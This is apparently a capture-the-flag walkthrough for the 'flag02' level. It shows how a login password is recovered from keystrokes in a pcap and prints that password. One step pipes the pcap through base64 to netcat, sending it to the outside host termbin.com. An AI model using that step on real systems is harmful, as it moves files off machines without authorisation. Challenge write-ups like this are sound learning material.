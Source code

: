 # flag02

We are given a pcap file with a login sequence attempt.

To retrieve the pcap file onto my machine, I used the [termbin](https://termbin.com) service:
```sh
cat pcap.pcap | base64 | nc termbin.com 9999
```
That gives us a URL which we can download and decode on our host:
```
wget https://termbin.com/<id> -O /tmp/pcap.b64
base64 -d /tmp/pcap.b64 > pcap.pcap
```

With the pcap file, we can use `wireshark` to look at the packets, and determine that it was a login sequence via a remote shell.

We can see the keyboard input of the user, typing keys, and deleting some (using the delete char `0x7F`). By following each keystroke, we can get the password.

We can now login as `flag02` with the password `ft_waNDReL0L`.
